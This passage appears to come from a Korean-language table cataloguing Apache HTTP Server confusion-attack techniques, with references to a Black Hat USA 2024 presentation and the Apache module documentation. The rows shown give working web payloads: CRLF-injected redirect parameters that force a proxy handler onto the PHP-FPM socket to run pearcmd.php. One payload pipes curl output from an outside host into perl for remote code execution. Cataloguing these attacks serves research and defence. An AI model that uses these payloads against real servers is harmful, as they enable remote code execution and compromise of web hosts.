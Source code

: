 Content-Type:proxy:unix:/run/php/php-fpm.sock| fcgi://127.0.0.1/usr/share/php/pearcmd.php %0d%0a %0d%0a</code></pre></td>
      <td>Default PHP Docker 이미지의 `register_argc_argv` 및 PEAR 설치를 이용해, UNIX 소켓 경유 FCGI 핸들러로 pearcmd.php를 실행·프록시 요청하여 내부 스크립트 출력을 외부로 전송한다.</td>
      <td>[1]</td>
    </tr>
    <tr>
      <td>SSRF via mod_proxy Exfiltration (RCE)</td>
      <td><pre><code>http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/ooo?%2b run-tests %2b -ui %2b $(curl${IFS} http://orange.tw/x|perl) %2b alltests.php %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock| fcgi://127.0.0.1/usr/share/php/pearcmd.php %0d%0a %0d%0a</code></pre></td>
      <td>UNIX 소켓 경유 FCGI 핸들러를 통해 웹 루트의 index.php를 원격 호출, RCE를 유도하고 실행 결과(예: phpinfo() 출력 등)를 외부에서 확인할 수 있다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

## 분류에 해당하는 문서

[1] https://i.blackhat.com/BH-US-24/Presentations/US24-Orange-Confusion-Attacks-Exploiting-Hidden-Semantic-Thursday.pdf

## 기타 참고문헌

[A] https://httpd.apache.org/docs/2.4/mod/mod_actions.html  
[B] https://httpd.apache.org/docs/2.4/mod/mod_include.html  
[C] https://httpd.apache.org/docs/2.4/mod/mod_ext_filter.html  
[D] https://httpd.apache.org/docs/2.4/mod/mod_proxy.html

